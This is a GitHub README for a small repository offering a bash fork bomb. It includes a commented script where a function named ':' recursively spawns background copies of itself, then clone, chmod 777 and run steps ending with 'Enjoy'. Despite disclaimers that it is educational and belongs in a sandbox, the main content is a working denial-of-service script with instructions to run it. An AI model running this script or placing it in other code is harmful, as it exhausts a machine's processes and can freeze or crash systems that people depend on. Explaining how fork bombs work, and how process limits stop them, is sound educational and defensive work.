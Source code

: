 # fork_bomb_sh
.sh script - a fork bomb is a type of denial-of-service (DoS) attack that overloads a system by creating recursively an enormous number of processes

## Disclaimer
This project is solely for educational purposes, demonstrating how process forking can lead to a system crash. Misuse of this script or using it maliciously may have legal consequences. Always use caution and ensure you are working in a secure, isolated environment when running this code.

## Description
A fork bomb is a type/form of Denial-of-Service (DoS) attack that creates recursively an enormous number of processes to overwhelm a system which cause the system to freeze or restart

> **WARNING**: This code should be only executed in a controlled env, such as a virtual machine or isolated sandbox
> This repo is for educational purposes only

## Script Code

```bash
#!/bin/bash # interpreter

:() {       # define a function with the name ":"
    : | : & # the function calls itself twice and runs in the background
}           # end of function
:           # call the function, starting the fork bomb
```

## How to Run the Script
1. clone the repo:
```sh
git clone https://github.com/jaroslavdusek1/fork_bomb_sh.git
cd fork_bomb_sh
```

2. Handle exe permissions
```sh
chmod +x fork-bomb.sh
chmod 777 fork-bomb.sh (isolated ENV or env without access other users)
```

3. Run the script
```sh
./fork-bomb.sh
```

Enjoy
